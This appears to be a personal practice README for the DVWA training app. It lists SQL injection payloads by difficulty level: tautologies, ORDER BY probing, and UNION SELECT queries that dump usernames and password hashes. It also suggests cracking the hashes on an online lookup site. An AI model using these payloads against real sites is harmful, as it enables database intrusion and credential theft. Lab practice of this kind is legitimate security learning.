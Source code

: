 # DVWA-Practice
Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable.The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface. This repo. contains documentation of the Exploits during my practice session.

Directory: localhost/DVWA-master/vulnerabilities/sqli/

# SQLi - Difficulty:Low
User Id -->
'or 1=1# 
'or'1'='1
' ORDER BY 3#
' ORDER BY 2#
' UNION SELECT user, password FROM users#       (# for commenting the rest of the statements after the query.)


# SQLi - Difficulty:Medium
inspect--> User Id
<option value="1 or 1=1 UNION SELECT user, password FROM users#">' UNION SELECT username, password FROM users--1</option>

NB: However due to the SQL query not having **quotes** around the parameter, this will not fully protect the query from being altered.
    (View Help & Source Code)
    
    
# SQLi - Difficulty:High
1' or 1=1 UNION SELECT user, password FROM users#

# SQLi - Cracking the Hashes
Set Setting: Low & collect the hashes.
' UNION SELECT user, password FROM users#
Paste it into crackstation.net to get the passwords.

# Additional Help: https://portswigger.net/web-security/sql-injection/union-attacks


